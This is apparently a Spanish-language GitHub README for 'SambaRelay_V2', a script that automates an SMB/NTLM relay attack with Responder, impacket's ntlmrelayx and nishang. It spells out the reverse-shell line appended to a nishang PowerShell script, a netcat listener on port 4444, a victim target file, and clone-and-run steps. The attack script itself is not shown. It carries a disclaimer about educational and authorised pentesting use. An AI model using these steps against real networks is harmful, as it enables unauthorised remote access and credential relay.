 
# SambaRelay_V2

Canal de youtube  https://youtube.com/c/Anonimo501

Grupo en Telegram https://t.me/Pen7esting

## Samba Relay V2

Este script es creado para fines educativos o para hacer auditorias profesionales de pentesting a nivel empresarial, no me hago responsable del mal uso de dicho  script, este script automatiza la modificacion del archivo Responder.conf en los valores SMB = Off y HTTP = Off, locual lo deja a la escucha, tambien descarga automaticamente https://github.com/SecureAuthCorp/impacket y descarga https://github.com/samratashok/nishang en nishang ingresa a nishang/Shells/ copia el archivo y lo renombra cp Invoke-PowerShellTcp.ps1 PS.ps1, al archivo PS.ps1 se le añade una linea al final que es la siguiente  Invoke-PowerShellTcp -Reverse -IPAddress $hacker -Port 4444, se deja a la escucha un server http automaticamente con el siguiente comando python -m SimpleHTTPServer, dejamos nc a la escucha rlwrap nc -nlvp 4444, no es necesario instalar los requerimientos de impacket o nishang ya que el script lo hace automaticamente, tambien crea un archivo llamado targets.txt dentro de /impacket/examples el cual contiene la  ip victima y por ultimo se ejecutal ntlmrelayx.py para lograr el acceso.

Esta Version del script basicamente lo que se le añade es el menu de opciones que nos permite la ejecucion del script nuevamente sin tener que reinstalar todo desde cer0

El script se ejecuto sobre ParrotOS 4.10

![Screenshot_1](https://user-images.githubusercontent.com/67207446/119040557-2eaae600-b97b-11eb-8cf6-0ac4d2581527.png)




git clone https://github.com/Anonimo501/SambaRelay.git

cd SambaRelay

chmod +x SMB_Relay.sh

./SMB_Relay.sh


# Referencias

SecureAuth Corporation.https://github.com/SecureAuthCorp/impacket
SamratAshok.https://github.com/samratashok/nishang
